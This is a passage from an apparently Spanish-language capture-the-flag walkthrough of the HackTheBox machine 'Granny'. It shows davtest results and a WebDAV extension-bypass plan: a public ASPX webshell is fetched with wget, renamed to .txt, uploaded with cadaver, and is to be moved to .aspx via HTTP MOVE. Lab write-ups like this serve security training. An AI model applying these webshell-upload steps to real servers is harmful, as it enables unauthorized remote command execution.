 ```bash
EXEC	jhtml	FAIL
EXEC	cfm	FAIL
EXEC	txt	SUCCEED:	http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.txt
EXEC	jsp	FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.pl
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.html
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.php
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.jhtml
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.cfm
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.txt
PUT File: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.jsp
Executes: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.html
Executes: http://10.129.144.63/DavTestDir_Jt6SGhm65hOOp6/davtest_Jt6SGhm65hOOp6.txt
```

como vemos en nmap nos dice que que tambien debemos poder usar el metodo http MOVE, asi podriamos subir una webshell  con extension txt y despues con MOVE cambiar a una extension asp o aspx

```bash
Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
```

Asi pues usare esta web shell en aspx

```bash
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
```

descargare la web shell y lo renombare a shell.txt

```bash
Granny # ❯ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx

Granny # ❯ mv cmd.aspx shell.txt
```

utilizare cadaver para subirlo utilizando el metodo HTTP - PUT 

```bash
Granny # ❯ cadaver 10.129.144.63                                           
dav:/> put cmd.txt
Transferiendo cmd.txt a '/cmd.txt':
 Progreso: [                              ]   0,0% of 4260 bytes Progreso: [=============================>] 100,0% of 4260 bytes exitoso.
dav:/>
```

probamos si todo subio correctamente y efectivamente todo subio sin problemas
